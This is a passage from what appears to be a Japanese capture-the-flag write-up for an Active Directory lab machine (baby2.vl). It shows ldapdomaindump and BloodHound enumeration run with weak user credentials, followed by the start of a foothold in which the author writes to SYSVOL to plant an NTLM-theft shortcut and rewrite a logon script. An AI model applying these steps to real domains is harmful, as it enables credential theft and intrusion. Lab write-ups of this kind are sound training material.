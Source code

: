 ```sh
whenChanged: 20251007100006.0Z
displayName: Carl Moore
uSNCreated: 16445
memberOf: CN=office,CN=Users,DC=baby2,DC=vl
uSNChanged: 118872
name: Carl Moore
objectGUID:: OKSBfhk+Y0K7meoS3xY9YQ==
userAccountControl: 66080
badPwdCount: 0
codePage: 0
<SNIP>
```
取得できる！
ldapdomaindumpとbloodhoundを実行する

### LdapDomainDump
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/BabyTwo]
└─$ ldapdomaindump ldap://10.129.234.72 -u 'baby2.vl\Carl.Moore' -p 'Carl.Moore' --no-json -d baby2.vl
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

domain_users.htmlから、多くのユーザーがofficeグループに入っていることがわかる
![](https://i.imgur.com/bTwZKiZ.png)

## BloodHound
データの収集
```sh
sudo rdate -n $Target_IP
sudo bloodhound-python -u 'Carl.Moore@baby2.vl' -p 'Carl.Moore' -ns 10.129.234.72 -d baby2.vl -c all
```

Domain Admins
![](https://i.imgur.com/AVaXoQM.png)
Joan.JennigsかADMINISTRATORを最終的に取ったら良さそう
でも、特にCarlとlibraryからの横展開の方法は思いつかない

# Foothold

## login.vbsの書き換え

SYSVOLのscriptsフォルダに書きこみ権限あるのか？
試しに、generate.lnkをアップロードする
```sh
┌──(kali㉿kali)-[~/…/HTB/BabyTwo/ntlm_theft/generate]
└─$ smbclient //10.129.234.72/SYSVOL -U 'library%library'            
smb: \> cd baby2.vl\
smb: \baby2.vl\> ls
  .                                   D        0  Tue Aug 22 17:43:55 2023
  ..                                  D        0  Tue Aug 22 17:37:36 2023
  DfsrPrivate                      DHSr        0  Tue Aug 22 17:43:55 2023
  Policies                            D        0  Tue Aug 22 17:37:41 2023
  scripts                             D        0  Mon Aug 25 08:30:39 2025

                6126847 blocks of size 4096. 1950086 blocks available
```